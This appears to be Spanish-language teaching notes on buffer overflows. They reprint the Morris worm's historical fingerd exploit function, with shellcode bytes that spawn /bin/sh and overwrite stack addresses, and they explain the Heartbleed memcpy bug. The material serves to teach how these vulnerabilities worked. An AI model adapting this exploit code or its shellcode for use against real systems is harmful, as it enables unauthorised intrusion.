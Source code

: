# Ejemplos de BufferOverflow
---
## Morris worm fingerd attack

• Noviembre de 1988: Aparece el gusano Morris y en cuestión de horas más de 6000 computadoras se ven afectadas, lo que en ese momento representaba el 10% de Internet.
• El gusano utilizó múltiples métodos de infiltración, siendo el más exitoso un exploit de desbordamiento de búfer en fingerd.
• También intentó ataques a través de sendmail y adivinación de contraseñas a partir de una lista fija.
• El demonio finger de BSD responde a solicitudes entrantes leyendo datos (usualmente un identificador de usuario) en un búfer y transmitiendo de vuelta la información del finger.
• El búfer tenía una longitud de 512 bytes, estaba asignado en la pila y se llenaba utilizando gets:
```
char buffer[512];
gets(buffer);
```
• Una solicitud maliciosa sobrescribe la dirección de retorno en la pila para apuntar dentro del búfer, que contiene código para ejecutar /bin/sh

En la mayoría de los sistemas, fingerd se ejecutaba como root.

#### Código:
```
static try_finger( struct hst *host, int *fd1, int *fd2)
{
int i, j, l12, l16, s;
struct sockaddr_in sin;
char unused[492];
int l552, l556, l560, l564, l568;
char buf[536];
int (*save_sighand)();
save_sighand = signal(SIGALRM, justreturn);
for (i = 0; i < 6; i++) {
if (host->o48[i] == 0)
continue;
s = socket(AF_INET, SOCK_STREAM, 0);
if (s < 0)
continue;
bzero(&sin, sizeof(sin));
sin.sin_family = AF_INET;
sin.sin_addr.s_addr = host->o48[i];
sin.sin_port = IPPORT_FINGER;
alarm(10);
if (connect(s, &sin, sizeof(sin)) < 0) {
alarm(0);
close(s);
continue;
}
alarm(0);
break;
}
if (i >= 6)
return 0;
for(i = 0; i < 536; i++)
buf[i] = '\0';
for(i = 0; i < 400; i++)
buf[i] = 1;
for(j = 0; j < 28; j++)
buf[i+j] =
"\335\217/sh\0\335\217/bin\320^Z\335\0\335\0\335Z\335
\003\320^\\\274;\344\371\344\342\241\256\343\350\357\
256\362\351"[j];
l556 = 0x7fffe9fc;
/* Rewrite part of the stack
frame */
l560 = 0x7fffe8a8;
l564 = 0x7fffe8bc;
l568 = 0x28000000;
l552 = 0x0001c020;
write(s, buf, sizeof(buf));
/* sizeof == 536 */
write(s, XS("\n"), 1);
sleep(5);
if (test_connection(s, s, 10)) {
*fd1 = s;
*fd2 = s;
return 1;
}
close(s);
return 0;
}
```

Crear descriptor de socket
Intentar conectarse al objetivo en el puerto finger (79)
Abortar si la conexión no se devuelve después de 10 segundos utilizando SIGALRM.

Llenar el búfer con datos para sobrescribir la dirección de retorno y código para llamar a execl(“/bin/sh”);
Nota: buf es un arreglo de 536 bytes, mientras que fingerd solo asigna 512 bytes.
Transmitir buf al objetivo
Probar si la intrusión fue exitosa.

https://www.cs.cmu.edu/afs/cs/academic/class/15213-s02/www/applications/recitation/recitation4/A/r04-A-4up.pdf

## Heartbleed
¿Qué es Heartbleed?
Heartbleed es una vulnerabilidad en OpenSSL que salió a la luz en abril de 2014; estaba presente en miles de servidores web, incluyendo aquellos que ejecutan sitios importantes como Yahoo.

OpenSSL es una biblioteca de código abierto que implementa los protocolos de Seguridad de la Capa de Transporte (TLS) y Capa de Conexión Segura (SSL). La vulnerabilidad significaba que un usuario malicioso podía engañar fácilmente a un servidor web vulnerable para que enviara información sensible, incluyendo nombres de usuario y contraseñas.

Los estándares TLS/SSL son cruciales para la encriptación web moderna, y aunque el fallo estaba en la implementación de OpenSSL y no en los estándares en sí, OpenSSL es tan ampliamente utilizado—cuando se hizo público el error, afectó al 17% de todos los servidores SSL—que precipitó una crisis de seguridad.

Una sola línea de código contiene el error que dio lugar a la vulnerabilidad Heartbleed:
```
memcpy(bp, pl, payload);
```

memcpy() es el comando que copia datos. bp es el lugar al que se están copiando, pl es de donde se copian, y payload es la longitud de los datos que se están copiando. Como hemos visto, el problema es que nunca se intenta verificar si la cantidad de datos en pl es igual al valor dado de payload.
